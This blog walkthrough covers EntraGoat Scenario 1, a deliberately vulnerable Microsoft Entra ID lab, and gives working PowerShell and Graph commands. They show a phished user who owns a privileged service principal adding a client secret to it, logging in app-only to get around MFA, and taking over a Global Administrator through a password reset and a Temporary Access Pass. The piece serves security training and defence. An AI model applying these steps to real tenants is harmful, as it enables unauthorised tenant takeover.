

# Misowned and dangerous: An Owner’s Manual to Global Admin

We begin our EntraGoat use examples with Scenario 1, which we’ve named **Misowned and Dangerous: An Owner’s Manual to Global Admin**. This practical exercise showcases how legitimate application ownership in Microsoft Entra ID can be leveraged to escalate privileges and compromise a Global Administrator account—enabling complete tenant takeover.

Starting with a compromised low-privileged user account, the attacker discovers ownership over an enterprise application (service principal) that is assigned a privileged role.

By adding a client secret to the service principal, the attacker pivots into the application’s identity, then uses its role to reset the admin’s password and issue a Temporary Access Pass (TAP) to gain full interactive access to the Azure portal.

This scenario emphasizes the real-world consequences of application mismanagement and illustrates the difference in behavior, access boundaries, and risk exposure between delegated and app-only authentication flows.

### Attack path overview

1. **Initial foothold:** – The attacker authenticates as a compromised finance user (david.martinez) with stolen credentials.
2. **Enumeration**: Using native PowerShell and Microsoft Graph cmdlets, the attacker discovers the user owns a service principal named Finance Analytics Dashboard that is assigned the Privileged Authentication Administrator role.
3. **Privilege escalation:** The attacker adds a client secret to the owned service principal and authenticates using app-only credentials, pivoting to a service principal identity.
4. **Account takeover**: From the app-only context with the privileged role, the attacker resets the Global Administrator’s password or adds a TAP to bypass multifactor authentication (MFA), then logs in interactively and retrieves the flag, confirming full tenant compromise.

### Attack flow

*Figure 1* shows the flow of this attack.



*Figure 1. Attack flow compromising an EntraGoat global admin account*

## Why is understanding application ownership important?

Every application in Entra ID has **two distinct identities**:

1. **Application registration**, a global definition object in the home tenant where the app was originally created. This object contains the app’s blueprint—OAuth2 permissions (scopes) that the app can request redirect URIs for sign-in flows, branding and publisher metadata, and more. This identity does not represent a live security principal in the tenant by itself.
2. **Service principal** **(SP)**, a local instance of the app in the tenant that acts as its **security identity** and enforces access control. A service principal is automatically created when a user in the tenant registers a new app, consents to an external app, and so on. The service principal identity is what Entra ID uses toassign roles, apply policies, and enforce permissions. It is also **the authenticated identity when the app acts on its own (app-only context).**

**Application ownership is a** **legitimate administrative feature**. This design supports decentralized administration across large organizations, enabling teams to manage their own enterprise apps. It allows developers, automation processes, and service owners to manage the lifecycle and configuration of their applications. However, this feature becomes a liability when:

* Applications are granted privileged roles
* Ownership is assigned to regular users without governance
* Credential hygiene is weak or unmonitored

Poorly governed service principals enable credential addition and app-only access, bypassing identity controls like MFA and Conditional Access.

**This walkthrough highlights why attackers prioritize lateral movement using service principals in modern cloud environments and why defenders must understand the difference between delegated and app-only security contexts.**

## How to detect and defend against application ownership misuse

Understanding and monitoring application ownership is not optional; it’s a foundational security control in any Entra ID environment. Application ownership grants the ability to manage credentials, configure permissions, and effectively **control the identity of the application**. Without visibility into app ownership and permission assignments, privilege escalation paths remain hidden from both defenders and auditors.

Defenders should monitor and correlate:

* Which applications exist in the tenant?
* Who owns them?
* What permissions or directory roles are they assigned?
* Do any unprivileged users own service principals with elevated access?
* Which applications are no longer in use and can be decommissioned?

**Semperis [Directory Services Protector (DSP)](https://www.semperis.com/active-directory-security/)** helps close gaps in understanding these questions with multiple layers of defense starting with indicators of exposure (IOEs) and indicators of compromise (IOCs). These indicators automatically detect and alert on dangerous defaults and misconfigurations—such as overly permissive authorization policies for configuring applications, non-admins owning privileged service principals, and weak application security baselines.

## Scenario deep dive: Step-by-step solution walkthrough

Let’s take a look at the specific steps you’ll take to simulate application ownership misuse and understand how it enables Global Admin compromise.

### Step 1: Initial foothold

We begin with the security context of a financial analyst, david.martinez (*Figure 2*) who entered his corporate credentials during a phishing campaign.


*Figure 2. Compromised credentials of a low-privileged user*

Using the Connect-MgGraph cmdlet, we authenticate as the compromised user (*Figure 3*).


*Figure 3. Logging in with our stolen credentials*

To understand our current capabilities, we start by inspecting the security context of the authenticated session (*Figure 4*).


*Figure 4. Security context of the authenticated session*

An alternative and well-known method for authenticating as an Entra ID user and obtaining a JWT access token is to leverage automation tools such as BARK1. The following PowerShell snippet demonstrates how to acquire and use an access token via username/password authentication from the CLI:

```powershell
$userToken = Get-MSGraphTokenWithUsernamePassword -Username $UPN -Password $password -TenantID $tenantId

$userAccessToken = $userToken.access\_token

$SecureToken = ConvertTo-SecureString $userAccessToken -AsPlainText -Force

Connect-MgGraph -AccessToken $SecureToken
```


BARK also includes functionality to decode the resulting JWT, exposing detailed session metadata such as delegated permissions (scp), directory roles (wids), authentication method (amr), and client information (app\_displayname), as *Figure 5* shows.


*Figure 5. Decoded session metadata*

This decoding step is particularly useful for rapid privilege triage. For example, if the token was issued to a user with directory roles, the wids claim would directly list the assigned role GUIDs, such as the Global Administrator role that *Figure 6* shows, without requiring additional Graph API enumeration.


*Figure 6. The Global Administrator UID revealed*

However, this walkthrough avoids relying on third-party tools or abstractions. All enumeration and exploitation steps are executed using native PowerShell and direct Graph API calls to ensure each phase of the attack path is fully transparent and technically explained.

\_\_\_\_\_

**Note:** By default, all authenticated users in Entra ID can query basic profile data of other users, and attributes like extensionAttribute1–15 aren’t classified as sensitive. As a result, the flag stored in the Admin’s profile can technically be retrieved immediately with the following API query:

```powershell
$uri = "https://graph.microsoft.com/v1.0/users/EntraGoat-admin-s1@334brf.onmicrosoft.com?`$select=onPremisesExtensionAttributes"

$response = Invoke-MgGraphRequest -Uri $uri -Method GET

$response.onPremisesExtensionAttributes.extensionAttribute1
```


This behavior is intentional. The goal of EntraGoat is not to hide the flag but to teach realistic privilege escalation techniques in Entra ID environments. Retrieving the flag via a direct API call is possible; but the real objective is to escalate privileges, access the Azure portal as the admin user, and **view the flag in their UI—**demonstrating full control over a Global Administrator identity. The flag is a gamified artifact, not the core goal.
```powershell
Invoke-MgGraphRequest -Uri 'https://graph.microsoft.com/v1.0/me?$select=id,userPrincipalName,onPremisesExtensionAttributes' |

    Select-Object @{n='UPN';e={$\_.userPrincipalName}},

                  @{n='Id';e={$\_.id}},

                  @{n='Flag';e={$\_.onPremisesExtensionAttributes.extensionAttribute1}}

```


### Step 2: Enumeration

Since this is the first scenario in the EntraGoat series, we’ll walk through **the enumeration process** and highlight foundational privilege escalation techniques. In our other scenarios, we’ll assume this baseline and focus directly on the core attack path, skipping the Capture The Flag-style reconnaissance steps.

With initial access to david.martinez, we begin searching for paths to privilege escalation. Our first task is to understand **what access the compromised identity has**.

We begin by checking whether the user is assigned any directory roles (*Figure 7*).:


*Figure 7. Checking user roles*

The Get-MgRoleManagementDirectoryRoleAssignment cmdlet reveals no privileged roles, confirming that david.martinez has no elevated access by default. Next, we look at group memberships (*Figure 8*).


*Figure 8. Viewing our user’s group memberships*

The user is only part of the default tenant group, which every Entra ID user is assigned for collaboration services like SharePoint or Teams. No privilege escalation path here either.

We also check whether david.martinez owns any groups, since group owners can add themselves as members and inherit the group’s privileges (such as assigned roles). This check returns empty as well (*Figure 9*).


*Figure 9. Checking our user’s group ownership*

However, querying for service principal ownership returns one result (*Figure 10*).


*Figure 10. Discovery that our user owns a service principal*

david.martinez owns the service principal Finance Analytics Dashboard. This is significant because service principal owners can manage credentials—including adding new secrets to **authenticate as the service principal.**

Let's check whether the Finance Analytics Dashboard service principal has any assigned permissions (*Figure 11*).


*Figure 11. Checking service principal assigned permissions*

None are configured. Next, we check for any directory roles assigned to it (*Figure 12*).


*Figure 12. Checking for service principal directory roles*

We see a role assignment, but it's represented only by a GUID. Each built-in Entra ID role is represented by a GUID, which is global and the same in all Entra ID tenants. You can view all of the official built-in roles and their GUIDs [here](https://docs.azure.cn/en-us/entra/identity/role-based-access-control/permissions-reference).

To resolve the GUID to a human-readable role name, we can pipe the output of Get-MgRoleManagementDirectoryRoleAssignment to Get-MgRoleManagementDirectoryRoleDefinition (*Figure 13*), which will translate each assigned role ID into its corresponding display name.


*Figure 13. Revealing a role’s display name*

Privileged Authentication Administrator is a highly sensitive role in Entra ID. It allows the holder to manage authentication methods for all users, including resetting MFA settings, configuring FIDO2 and passwordless sign-in options, and modifying key policies that govern how users authenticate. That’s why an attacker, acting as its owner, would certainly want to add a client secret to it and use it to influence the Global Administrator account.


**Note:** If you've followed the enumeration phase closely, you've likely noticed the verbosity and manual effort required when using native Microsoft Graph cmdlets. (What if we owned 5[0] Entra applications instead of 1?) This is one of the core limitations of relying solely on native tooling. Commands often return low-level data (such as GUIDs) that require additional queries to resolve into meaningful information.

This is exactly why many enumeration frameworks automate these processes. They abstract away repetitive queries and streamline the output, allowing **faster privilege analysis** and **decision-making**. For example, to improve usability we can write simple wrapper functions such as Find-OwnedServicePrincipals and Get-ServicePrincipalRoles that are designed to automate the discovery of SP ownership and resolve directory role assignments more efficiently:

```powershell

function Find-OwnedServicePrincipals {

    param([string]$UserId)

    # Get all service principals in tenant

    $allSPs = Get-MgServicePrincipal -All

    Write-Host "Found $($allSPs.Count) service principals in tenant"

    $ownedSPs = @()

    $checkCount = 0

    # Check ownership of each service principal

    foreach ($sp in $allSPs) {

        $checkCount++

        if ($checkCount % 50 -eq 0) {

            Write-Host "Checked $checkCount/$($allSPs.Count) service principals..."

        }

        try {

            $owners = Get-MgServicePrincipalOwner -ServicePrincipalId $sp.Id -ErrorAction SilentlyContinue

            if ($owners) {

                foreach ($owner in $owners) {

                    if ($owner.Id -eq $UserId) {

                        $ownedSPs += $sp

                        Write-Host "OWNED SERVICE PRINCIPAL FOUND!" -ForegroundColor Red

                        Write-Host "   Name: $($sp.DisplayName)" -ForegroundColor Yellow

                        Write-Host "   SP ID: $($sp.Id)" -ForegroundColor Yellow

                        Write-Host "   App ID: $($sp.AppId)" -ForegroundColor Yellow

                        break

                    }

                }

            }

        } catch {

            continue

        }

    }

    return $ownedSPs

}

function Get-ServicePrincipalRoles {

    param([object]$ServicePrincipal)

    Write-Host "Checking roles for: $($ServicePrincipal.DisplayName)"

    # Check directory role assignments for the SP

    $roleAssignments = Get-MgRoleManagementDirectoryRoleAssignment -Filter "principalId eq '$($ServicePrincipal.Id)'" -ErrorAction SilentlyContinue

    $roles = @()

    if ($roleAssignments) {

        foreach ($assignment in $roleAssignments) {

            $roleDefinition = Get-MgRoleManagementDirectoryRoleDefinition -UnifiedRoleDefinitionId $assignment.RoleDefinitionId

            $roles += $roleDefinition

            Write-Host "   Role: $($roleDefinition.DisplayName)" -ForegroundColor Cyan

        }

    } else {

        Write-Host "   No directory roles assigned"

    }

    return $roles

}

```


Now, to discover all the service principals owned by the compromised user and enumerate their assigned roles, we can simply run Find-OwnedService Principals, as *Figure 14* shows.


*Figure 14. Discovering owned service principals*


### Step 3: Pivoting into the service principal’s context

This step highlights the core reason why we created this scenario and positioned it first in the series. **Service principals shape the landscape of privilege escalation in Entra ID**. Lateral movement into a service principal’s security context and leveraging it to perform privileged operations is a fundamental technique every defender, attacker, and researcher that works with Entra ID should be familiar with.

Let’s add a client secret to the Finance Analytics Dashboard service principal to establish backdoor access and authenticate as the SP:

```powershell
$secretDescription = "EntraGoat-Secret-$(Get-Date -Format 'yyyyMMdd-HHmmss')"

$passwordCredential = @{

    DisplayName = $secretDescription

    EndDateTime = (Get-Date).AddYears(1)

}

$newSecret = Add-MgServicePrincipalPassword -ServicePrincipalId $SP.Id -PasswordCredential $passwordCredential


# Save the added secret details

$clientSecret = $newSecret.SecretText
```


Next, disconnect the current user session with Disconnect-MgGraph, construct the client credentials, and authenticate using the service principal’s identity via Connect-MgGraph:

```powershell
$secureSecret = ConvertTo-SecureString -String $clientSecret -AsPlainText -Force

$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $SP.AppId, $secureSecret

Connect-MgGraph -TenantId $tenantId -ClientSecretCredential $credential

```


And indeed, now we are authenticated as the Finance Analytics Dashboard service principal (*Figure 15*).


*Figure 15. Demonstrating authentication as a service principal*

The Get-MgContext response reveals information about **how the current Microsoft Graph session is authenticated**, which directly determines the **security context, access level, and permission model** that is applied. Let’s focus on the fields AuthType and TokenCredentialType as they expose core identity semantics in Entra ID.

After authenticating as david.martinez, these values appeared as:
```powershell
AuthType            : Delegated

TokenCredentialType : InteractiveBrowser
```

This indicates a **delegated session**, where the issued token represents a user identity. Access is governed by the user's assigned roles and delegated permissions, and all operations are performed **on behalf of the user**. The session context is limited to what the user identity has access to as it inherits Conditional Access policies, MFA enforcement, and PIM constraints.

In contrast, an **app-only context** such as one initiated by a service principal using client credentials (AppId + Secret + TenantId) operates as a **non-human identity**. Any client (script, background job, daemon) using those credentials can authenticate as the app and invoke Microsoft Graph APIs based on its **application permissions**, regardless of user context. Conditional Access policies, MFA, and PIM are not applicable or enforced in this flow.

This distinction is foundational in identity security design and explains why API behavior, access scopes, and token privileges differ under the same cmdlets, depending on session context.

And as expected, this distinction has a big impact on attack surface and abuse potential. Delegated flows are constrained by user context while App-only flows operate with **service-level trust** and often with broader and less-controlled privilege boundaries. For attackers, compromising an app secret or certificate often results in persistent, high-privilege access that bypasses identity-centric enforcement mechanisms.

### Step 4: **Account takeover—s**igning in as the global admin

Now that we've authenticated as an identity with the Privileged Authentication Administrator role, we have the ability to reset passwords (*Figure 16*) for any user in the tenant, including the Global Administrator.


*Figure 16: Resetting the Admin password*

With this level of access, we can also assign a **TAP** (*Figure 17*) as an authentication method, enabling us to bypass MFA and sign in directly to the Azure Portal:


*Figure 17. Assigning a TAP for authentication*

Next, we log in with the TAP (*Figure 18*).


*Figure 18. Logging in with the new TAP*

We then retrieve the scenario flag (*Figure 19*).


*Figure 19. The flag is captured*

Once the scenario is completed, we execute the cleanup script to restore the EntraGoat tenant to its original state (*Figure 20*).


*Figure 20. EntraGoat cleanup sets us up for our next scenario*

## Know your weakest link

This scenario demonstrates how seemingly legitimate and common configurations, such as assigning application ownership to a standard user, can open the door to full tenant compromise when paired with privileged roles.

By leveraging ownership over a service principal, attackers can escalate privileges, bypass user-centric defenses like MFA and Conditional Access, and ultimately gain Global Administrator access through an app-only flow.

This exercise underscores the **critical importance of strong governance around application permissions, service principal ownership, and role assignments**. In modern cloud environments, service principals are often the weakest link, and understanding their dual identity model, access boundaries, and abuse potential is essential for both attackers and defenders.

EntraGoat’s Scenario 1 sets the foundation for further exploration—and our next scenarios. So keep on hacking!

## Take on your next EntraGoat challenge

## Endnote

1 <https://github.com/BloodHoundAD/BARK>

## Disclaimer

This content is provided for educational and informational purposes only. It is intended to promote awareness and responsible remediation of security vulnerabilities that may exist on systems you own or are authorized to test. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. We do not endorse or condone any illegal activity and disclaims any liability arising from misuse of the material. Additionally, We do not guarantee the accuracy or completeness of the content and assumes no liability for any damages resulting from its use.